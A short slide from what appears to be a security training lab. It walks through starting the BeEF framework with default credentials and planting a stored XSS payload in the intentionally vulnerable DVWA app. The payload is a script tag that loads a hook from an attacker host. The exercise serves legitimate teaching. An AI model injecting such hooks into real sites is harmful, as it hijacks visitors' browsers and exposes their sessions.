

# Practice 4
Use BeEF XSS Framework
Open terminal, type: cd /usr/share/beef-xss
Run ./beef
Open browser, type http://localhost:3000/ui/panel and login with beef:beef
Open DVWA, login and set security level to low
Select XSS Stored
Type: <script src=“http://172.17.22.x:3000/hook.js”></script>
Launch attack!